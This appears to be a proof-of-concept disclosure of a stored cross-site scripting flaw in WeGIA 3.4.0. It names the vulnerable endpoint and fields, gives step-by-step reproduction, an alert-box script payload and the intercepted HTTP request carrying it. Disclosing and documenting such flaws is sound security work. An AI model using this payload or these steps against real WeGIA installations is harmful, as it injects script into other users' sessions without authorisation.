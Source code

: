#VIDEO POC: https://youtu.be/BCqqmDk0pH8

📄 PoC for Exploitation: Stored XSS in WeGIA 3.4.0
Vulnerability Type: Stored Cross-Site Scripting (XSS)

Affected Application: WeGIA 3.4.0

Vulnerable Endpoint: /html/atendido/Cadastro_Atendido.php?cpf={CPF}

Vulnerable Parameters: Nome and Sobrenome

Impact: Persistent execution of arbitrary JavaScript code in the context of the application

🔧 Step-by-step PoC for Stored XSS in WeGIA
1 - Log in to the platform.

![image](https://github.com/user-attachments/assets/64fd1586-9787-4d70-a9a2-2ada710fc98a)
![image](https://github.com/user-attachments/assets/b9839e9f-e4ef-43b4-8291-dade94ffcf67)

Access the application with valid credentials.

2 - Go to the page /html/atendido/pre_cadastro_atendido.php and register a new user.
Insert a valid CPF (you can use an online Brazilian CPF generator) and proceed to pre-register the user.

![image](https://github.com/user-attachments/assets/4a5ce371-cbbd-41e3-8e2e-790a88ca4333)
![image](https://github.com/user-attachments/assets/303e8f1a-5b02-4f61-b220-881ba00b9478)

3 - Go to the page /html/atendido/Cadastro_Atendido.php?cpf={CPF} and insert the following payload in the "Nome" and "Sobrenome" fields, then click "Enviar":

<script>alert('Poc VulDBeeee')</script>
![image](https://github.com/user-attachments/assets/5bbca0e7-bf6f-4018-bebd-07de2051a6a6)
![image](https://github.com/user-attachments/assets/84adf54c-4550-466a-bc3b-1c7460343df4)
![image](https://github.com/user-attachments/assets/edd43c56-972e-4daf-864c-308a2c474c26)


4 - The HTTP request, if intercepted using a proxy such as Burp Suite, will look like this:

**#GET /WeGIA/controle/control.php?nome=%3Cscript%3Ealert%28%27PoC+VulDB%27%29%3C%2Fscript%3E&sobrenome=%3Cscript%3Ealert%28%27PoC+VulDB%27%29%3C%2Fscript%3E&sexo=m&telefone=%2899%2927199-81&nascimento=2000-10-10&intStatus=3&intTipo=1&nomeClasse=AtendidoControle&cpf=040.550.340-75&metodo=incluir HTTP/1.1**
**#Host: sec.wegia.org:8000**
**#Cookie: PHPSESSID=...**
**#User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)**
**#Referer: https://sec.wegia.org:8000/WeGIA/html/atendido/Cadastro_Atendido.php?cpf=CPF**

5 - Go to “Pessoas” > “Atendidos” > “Cadastrar ocorrência”.

![image](https://github.com/user-attachments/assets/a5696a46-f608-40ba-a9ae-9817b7a61921)

This section loads the stored data of the registered person.

6 - The JavaScript payload will be executed every time the page /html/atendido/cadastro_ocorrencia.php is accessed, confirming that the application is vulnerable to Stored XSS.

![image](https://github.com/user-attachments/assets/24de9736-66ad-42ec-97bd-01dd8d097d6f)
